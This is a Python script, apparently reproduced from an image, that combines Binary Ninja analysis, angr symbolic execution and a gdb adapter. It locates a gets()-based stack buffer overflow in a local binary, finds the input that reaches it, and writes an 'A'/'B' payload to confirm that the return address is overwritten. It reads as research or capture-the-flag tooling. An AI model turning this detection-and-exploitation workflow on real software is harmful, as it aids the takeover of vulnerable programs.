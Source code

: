 ```py
def get_vuln(b):
    for ref in b.get_code_refs(gets_function.start):
        hlil = ref.function.get_low_level_il_at(ref.address).hlil
        if hlil.operation == HighLevelILOperation.HLIL_CALL:
            param = hlil.params[0]
            if param.operation == HighLevelILOperation.HLIL_ADDRESS_OF:
                val = param.value
                if val.type == RegisterValueType.StackFrameOffset:
                    offset = val.offset
                    return hlil,offset

hlil,offset = get_vuln(bv)
print(f"Stack-Based Buffer Overflow Detected. Supplying {abs(offset)} bytes shold corrupt base pointer!")
print(f"HLIL: {hex(hlil.address)}->", str(hlil))

sf = hlil.function.source_function
last_instruction = sf.get_low_level_il_at(sf.address_ranges[0].end-1).hlil
if last_instruction.operation == HighLevelILOperation.HLIL_RET:
    end_addr = last_instruction.address

# REACHING THE VULN
proj = angr.Project(binary_path)
main = bv.get_functions_by_name("main")[0]
state = proj.factory.blank_state(addr=main.start)
simgr = proj.factory.simgr(state)
simgr.explore(find=hlil.address)

if len(simgr.found) > 0:
    print("Vuln gets is reachable!")
    print("The following input is required to reach vuln:",simgr.found[0].posix.dumps(0))

stdout_len = len(simgr.found[0].posix.dumps(1))

# TRIGGERING THE VULN
simgr = proj.factory.simgr(simgr.found[0])
simgr.explore(find=end_addr)
if len(simgr.found) > 0:
    print("Can reach ret")

from Vector35_debugger import gdb
adapter = gdb.DebugAdapterGdb()
adapter.exec(binary_path)

payload  = b""
payload += b"A"*abs(offset)
payload += b"B"*8

adapter.breakpoint_set(hlil.address)
adapter.go()
adapter.breakpoint_clear(hlil.address)

buff = adapter.reg_read('rdi')
adapter.mem_write(buff,payload)
next_instruction = bv.get_instruction_length(hlil.address) + hlil.address
adapter.reg_write("rip",next_instruction)
reason,_ = adapter.go()
adapter.handle_stop(reason,_)

if reason == gdb.DebugAdapter.STOP_REASON.ACCESS_VIOLATION:
    rip = adapter.mem_read(adapter.reg_read("rsp"),8)
    if rip == b"B"*8:
        print("RIP IS SUCCESSFULLY OVERWRITEN")
```